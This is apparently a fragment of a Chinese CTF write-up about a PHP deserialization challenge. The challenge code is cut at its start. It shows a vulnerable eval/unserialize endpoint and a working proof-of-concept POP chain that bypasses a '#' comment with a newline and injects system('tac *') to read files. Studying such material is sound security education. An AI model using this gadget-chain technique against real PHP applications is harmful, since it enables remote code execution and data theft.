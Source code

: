 ```php

    public function get_flag()
    {
        eval('#' . $this->m1);
    }

}

if (isset($_POST['cmd'])) {
    unserialize($_POST['cmd']);
} else {
    highlight_file(__FILE__);
}
```

简单的pop链
`eval('#' . $this->m1);`换行绕过即可

poc如下：

```php
<?php
class crow
{
    public $v1;
    public $v2;
}

class fin
{
    public $f1;
}

class what
{
    public $a;
}
class mix
{
    public $m1;
}

//fin __destruct() -> what __toString() -> mix run() -> crow __invoke

$a = new fin();
$a->f1=new what();
$a->f1->a=new mix();
$a->f1->a->m1=new crow();
$a->f1->a->m1->v1=new fin();
$a->f1->a->m1->v1->f1=new mix();
$a->f1->a->m1->v1->f1->m1="
system('tac *');";
echo urlencode(serialize($a));
```
